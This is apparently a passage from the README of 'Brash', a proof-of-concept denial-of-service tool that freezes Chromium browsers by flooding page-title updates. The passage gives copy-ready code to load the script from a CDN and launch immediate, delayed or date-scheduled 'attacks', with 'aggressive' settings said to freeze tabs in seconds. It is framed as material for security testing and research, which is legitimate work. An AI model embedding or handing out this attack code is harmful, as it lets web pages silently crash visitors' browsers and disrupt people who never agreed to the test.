 Simply open `exploit-demo/index.html` in any Chromium browser and configure the `burst` and `interval` values before starting.

- **burstSize**: Title changes per interval (higher = more aggressive)
- **interval**: Milliseconds between bursts (lower = more aggressive)

### 3. Implement Your Own PoC

To integrate **Brash** into your own security testing or research, include the script and configure the attack:

**Include the script:**
```html
<!-- Local -->
<script src="brash.js"></script>

<!-- CDN -->
<script src="https://cdn.jsdelivr.net/gh/jofpin/brash/brash.js"></script>
```

**API Usage:**

```javascript
// 1. Immediate attack
Brash.run({
    burstSize: 8000,
    interval: 1
});

// 2. Delay in seconds (default)
Brash.run({
    burstSize: 8000,
    interval: 1,
    delay: 30  // 30 seconds
});

// 3. Delay with strings
Brash.run({
    burstSize: 8000,
    interval: 1,
    delay: "30s"  // or "5000ms" or "3m"
});

// 4. Scheduled attack
Brash.run({
    burstSize: 8000,
    interval: 1,
    scheduled: "2025-10-18T09:30:00"
});
```

**Intensity configurations:**

```javascript
// Moderate: controlled observation
// Effect: Browser responds slowly and allows observing gradual degradation
Brash.run({ 
    burstSize: 200,
    interval: 1000 // ~600 updates/sec
});

// Aggressive: rapid saturation
// Effect: Tabs freeze in 10-20 seconds
Brash.run({ 
    burstSize: 2000, 
    interval: 100 // ~60,000 updates/sec
});
```